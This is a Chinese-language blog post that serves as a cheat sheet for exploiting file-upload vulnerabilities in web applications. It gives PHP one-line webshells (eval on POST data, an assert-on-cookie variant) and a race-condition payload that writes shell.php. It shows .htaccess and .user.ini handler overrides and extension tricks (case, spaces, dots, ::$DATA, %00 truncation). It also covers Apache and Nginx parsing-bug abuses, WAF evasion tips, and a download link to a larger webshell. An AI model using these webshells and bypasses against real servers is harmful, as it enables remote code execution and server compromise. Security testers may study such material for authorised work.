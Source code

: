 ```yaml
---
layout: post
title: upload方法大全
categories: [web,upload]
---
```

# 文件上传漏洞
## 木马后门  
### 一句话木马
```php
	<?php @eval($_POST["cmd"]); ?>
	Cookie
	<?php @$a = $_COOKIE[1];$b =''; $c =''; @assert($b.$a); ?>
```
```js
	<script language="php">@eval($_POST['cmd'])</script>
```

### 小马
### 大马  
>链接：https://pan.baidu.com/s/1NM1kD7bEa_aUEqZxVaplpg?pwd=p2s8  
>提取码：p2s8

---

## 文件上传绕过方法
>删除/禁用js、修改拓展名、修改MIME类型、等价拓展名、大小写、htaccess、双写、空格、点、  
>::$DATA、%00截断、0X00截断、图片马、条件竞争等等  
---

### MINE类型
>常见Content-Type
1.image/gif 
2.image/png 
3.image/jpeg    
4.text/plain
5.text/html  
6.application/pdf  

### 文件内容
1.文件幻数  有`GIF89a`等等  
2.文件相关信息  
3.图片渲染  
>对图片进行代码注入
![php](/img/1php.png)  
![house](/img/house.png)  
4.二次渲染
>使用溢出攻击实现

### 文件后缀

#### 1.黑名单  
>后缀大小写(.Php)、  
>空格(.php )、  
>点(.php.)、  
>(.php::$DATA)、  
>Apache解析漏洞不识别`.rar`/`.owf`(.php.rar.owf)  
>.user.ini文件
```
	auto_prepend_file=2.jpg
```
>.htaccess文件  
```htaccess
	<FilesMatch "shell.png">
	SetHandler application/x-httpd-php
	</FileMatch>  
```  
>文件夹绕过  `upload/shell.php/.`让系统误以为shell.php是文件夹，实际解析时为php文件  


#### 2.白名单  
>%00截断、0X00截断 shell.php`%00`.png
>POST方式注意在hex编码处将空格`0x20`改为`0x00`  
##### 逻辑数组绕过
>白名单是，可以payload `/upload/shell.php/.jpg`   
>服务端检测时会将`shell.php`识别为文件夹，但解析后会识别为php文件  
---
### 竞争条件攻击  
>一些网站先允许任意文件上传，再对文件内容进行检测  
>检测到删除之间存在时间差  
>可以在时间差内生成新的`shell.php`  
  
#### 上传的php代码
```php
	<?php
		fputs(fopen('../shell.php','w'),'<?php @eval(&_POST['cmd']);?>');
	?>		
```

## 中间件漏洞上传

### 解析漏洞
#### Apache
1.[Tomcat CVE-2017-12615 漏洞](https://minelords.github.io/2023/07/21/CVE-2017-12615-%E5%A4%8D%E7%8E%B0/)  
2.`/shell.php.xxx` 当Apache无法识别.xxx后缀，会将文件向左解析。   
3.换行解析漏洞  
`合法后缀配置文件中的正则表达式中$不仅匹配字符串结尾位置，还可以匹配\n或\r，在解析php时，1.php\%0A将按照.php进行解析，而’.php\%0A’ != ‘.php’,可能过滤时过滤了.php但没有过滤.php\%0A从而实现绕过。`  
```
<FilesMatch \.php$>
 	SetHandler application/x-httpd-php
<FilesMatech>`>
```
#### Nginx  
若上传文件保存地址为`/upload/xxx.jpg`，在后面加上`/1.php`,则会将文件当php执行    
#### IIS 
版本较老，少见，以后再看   

### 编辑器漏洞
Fckeditor等等  

# waf绕过  
## 垃圾数据溢出
插入Content-Disposition  
## 符号变异
单引号双引号匹配  
## 数据截断
>%00    换行  
